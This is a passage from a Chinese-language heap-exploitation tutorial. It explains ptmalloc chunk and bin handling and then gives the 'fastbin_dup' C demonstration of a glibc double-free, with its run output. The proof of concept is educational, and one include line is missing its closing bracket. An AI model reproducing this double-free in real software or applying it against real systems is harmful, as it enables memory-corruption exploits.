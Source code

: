 当空闲的 **chunk** 被连接到 **bin** 的时候，**ptmalloc** 会把表示该 **chunk** 是否正在使用的标志 **p** 设置为 0。（**注意！这个标志实际处在下一个 chunk 中**）。同时，**ptmalloc** 还会检查它前后（物理前后）的 **chunk** 是否为空，如果为空，**ptmalloc** 会把这些 **chunk** 合并成一个大的 **chunk**，然后把合并后的 **chunk** 放入 **unsorted bin** 中。但是对于较小的 **chunk**，**ptmalloc** 会把它放入 **fast bins** 中。

这个示例中，在64位系统中，分配的内存大小应该都属于**Small Bin**，我们第一次**Free**，**chunk**到了**bin**中的**Small Bin**，然后我们再次分配内存的时候，就会再次得到第一次分配的内存

# 0x02 fastbin_dup

源代码

```c
#include <stdio.h>
#include <stdlib.h
int main()
{
	fprintf(stderr, "This file demonstrates a simple double-free attack with fastbins.\n");
	//这个程序展示了一个利用fastbin进行的简单double-free攻击.
	fprintf(stderr, "Allocating 3 buffers.\n");
    //先分配三块内存.
	int *a = malloc(8);
	int *b = malloc(8);
	int *c = malloc(8);
	fprintf(stderr, "1st malloc(8): %p\n", a);
	fprintf(stderr, "2nd malloc(8): %p\n", b);
	fprintf(stderr, "3rd malloc(8): %p\n", c);
	fprintf(stderr, "Freeing the first one...\n");
    //free掉第一块内存…
	free(a);
	fprintf(stderr, "If we free %p again, things will crash because %p is at the top of the free list.\n", a, a);
    //如果我们再free第一块内存a的话,程序就会崩溃,然后报错.因为这个时候这块内存刚好在对应free-list的顶部,再次free这块内存的时候就会被检查到.
	// free(a);
	fprintf(stderr, "So, instead, we'll free %p.\n", b);
    //所以我们另外free一个,我们free第二块内存b.
	free(b);
	fprintf(stderr, "Now, we can free %p again, since it's not the head of the free list.\n", a);
    //现在我们再次free第一块内存,程序不会崩溃，因为它已经不在链表顶部了.
	free(a);
	fprintf(stderr, "Now the free list has [ %p, %p, %p ]. If we malloc 3 times, we'll get %p twice!\n", a, b, a, a);
    //现在我们的free-list有这三块内存[a,b,a].
    //如果我们malloc三次的话,我们就会得到a两次!
	fprintf(stderr, "1st malloc(8): %p\n", malloc(8));
	fprintf(stderr, "2nd malloc(8): %p\n", malloc(8));
	fprintf(stderr, "3rd malloc(8): %p\n", malloc(8));
}
```

运行效果

```c
syc@ubuntu:~/Downloads/tmp$ ./a.out
This file demonstrates a simple double-free attack with fastbins.
Allocating 3 buffers.
1st malloc(8): 0x83b5008
2nd malloc(8): 0x83b5018
3rd malloc(8): 0x83b5028
Freeing the first one...
If we free 0x83b5008 again, things will crash because 0x83b5008 is at the top of the free list.
So, instead, we'll free 0x83b5018.
Now, we can free 0x83b5008 again, since it's not the head of the free list.
Now the free list has [ 0x83b5008, 0x83b5018, 0x83b5008 ]. If we malloc 3 times, we'll get 0x83b5008 twice!
```